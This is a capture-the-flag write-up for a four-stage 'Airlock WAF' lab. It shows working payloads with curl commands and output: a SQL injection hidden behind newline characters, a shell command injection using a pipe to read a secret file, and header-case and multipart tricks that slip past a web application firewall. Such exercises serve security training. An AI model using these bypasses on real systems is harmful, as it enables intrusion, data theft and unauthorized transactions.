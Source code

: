 # Airlock WAF (easy - 50 Points)

## Task

This challenge is sponsored by Ergon, the vendor of Airlock Secure Access hub.

This challenge consists of 4 vulnerable web sites. The sites are accessible by the URLs:

- Challenge 1: /challenge1/start.php
- Challenge 2: /challenge2/<UUID2>.php
- Challenge 3: /challenge3/<UUID3>.php
- Challenge 4: /challenge4/<UUID4>.php

By solving challenge1 you will get UUID2, by solving challenge2 you will get UUID3 and so on.

Submit the flag to prove that you solved all 4 challenges. The flag is the UUID you discover in the last challenge (challenge 4).

All 4 web sites have a well-documented web security vulnerability. The Web Application Firewall Airlock Gateway is deployed in front of the web server to prevent exploitation of the vulnerabilities. For all challenges there is an explicit bug implemented into the WAF configuration.

If you need a hint, please ask Reto. Send him an e-mail to reto.ischi@airlock.com.


### Challenge 1/4: Currency Converter

The application uses a MySQL database to store the conversion rates and calculate the result. The currency field is vulnerable to a SQL injection attack.

Vulnerable SQL statement:
```
$sql = "SELECT ROUND(? * value, 2) AS res FROM currencies WHERE name = '$convert_to'";
```
A table secrets contains the UUID to the next challenge /challenge2/<UUID>.php

Assume the attacker can use an UNION SQL injection attack to read the values from the secrets table.

Exploit:
```
challenge1/start.php?amount=50&currency=%27+union+select+*+from+secrets+%23
```

Unfortunately for the hacker, Airlock WAF blocks the parameter currency because it looks like SQL injection. Can you modify the parameter to bypass the WAF?

Hint: Whitespace character

We introduced a bug into the SQL rules of Airlock WAF for this challenge. Note that a good WAF should block any hacker evasion technique.

### Challenge 2/4: User Disk Quota Checker

The page displays the used disk quota for a specific user. The user can be specified with the parameter user. Example:
```
/challenge2/<UUID>.php?user=thomas
```

The parameter is vulnerable to an OS command injection vulnerability. The application uses the following bash command to calculate the disk usage:
```
du -sh '/home/$user' | cut -f1
du -sh '/home/$user' | cut -f1
```

Read out the UUID for the next challenge from the file /tmp/secret.txt using the OS command injection vulnerability to be able to access the next challenge. An example exploit would be:

```
/challenge2/<UUID>.php?user=sdkfj%27%20%3B%20cat%20%2Ftmp%2Fsecret.txt%20%23%27
/challenge2/<UUID>.php?user=sdkfj%27%20%3B%20cat%20%2Ftmp%2Fsecret.txt%20%23%27
```
Again, the WAF blocks this attack. Can you modify the exploit string to bypass the WAF?
Hint: Operator

### Challenge 3/4: Account Transfer 1/2

Can you transfer money to the target account 99-999999-999 to solve this challenge?

The WAF administrator restricted the parameter values of account_to.

Hint 1: A good WAF must be able to recognize the format of a web request in the same way as the back-end application. If this is not possible the request must be normalized or blocked. Otherwise an attacker can bypass all filter rules.

How does a web server detect that the request is encoded as HTML form data? Try to modify the format indicator so that the back-end application recognizes the request body as HTML form data but the WAF does not.

Hint 2: tamper suffix

### Challenge 4/4: Account Transfer 2/2

Again, send money to 99-999999-999 to solve the last challenge step.

A good WAF must be able to understand/parse all common web formats like HTML form data or JSON to detect attack payloads in data fields. WAF filter rules are useless if corresponding parsers are not available or enabled.

Hint: multipart

## Solution

### Challenge 1

Using a \n\r (%0A%0D urlencoded) to bypass the check:
```
$ curl "https://1ea162d4-e49d-4390-a182-aa40070e6e96.idocker.vuln.land/challenge1/start.php?amount=2&currency=%27+%0A%0Dunion+select+*+from+secrets+%23"
[...]
Result: 12076336-a10a-11eb-bcbc-0242ac130002</p>
```

### Challenge 2

Use a Pipe symbol instead of the Semicolon:
```
$ curl "https://e8d14112-dc08-4e87-9f8c-f573764d91d8.idocker.vuln.land/challenge2/12076336-a10a-11eb-bcbc-0242ac130002.php?user=sdkfj%27%20%7C%20cat%20%2Ftmp%2Fsecret.txt%20%23%27"
[...]
User sdkfj' | cat /tmp/secret.txt #' used '21d3038f-a90a-49bc-b2f4-f300adef741e
' of his 1GB disk quota.
```


### Challenge 3

Use uppercase "X" in the content type header:
```
$ curl 'https://5b6bfd70-6040-4613-8895-c16a06c327c8.idocker.vuln.land/challenge3/21d3038f-a90a-49bc-b2f4-f300adef741e.php' -H 'Content-Type: application/X-www-form-urlencoded' --data-raw 'amount=3&account_from=11-111111-111&account_to=99-999999-999'
[...]
3 USD transferred from 11-111111-111 to 99-999999-999<p><b><font color="red">You made it. Flag: fa2f20aa-1e5a-4a21-ba75-ff31758eee55</font><b>
```

### Challenge 4

Use Multipart Request instead of normal form data:
```
$ curl 'https://5b6bfd70-6040-4613-8895-c16a06c327c8.idocker.vuln.land/challenge4/fa2f20aa-1e5a-4a21-ba75-ff31758eee55.php' -F amount=1 -F account_from=11-111111-111 -F account_to=99-999999-999
[...]
1 USD transferred from 11-111111-111 to 99-999999-999<p><b><font color="red">You made it. Flag: b8cc53a0-19ed-4d5c-aa7e-8b3e135559fa</font><img src="./rock.jpg"><b>

```
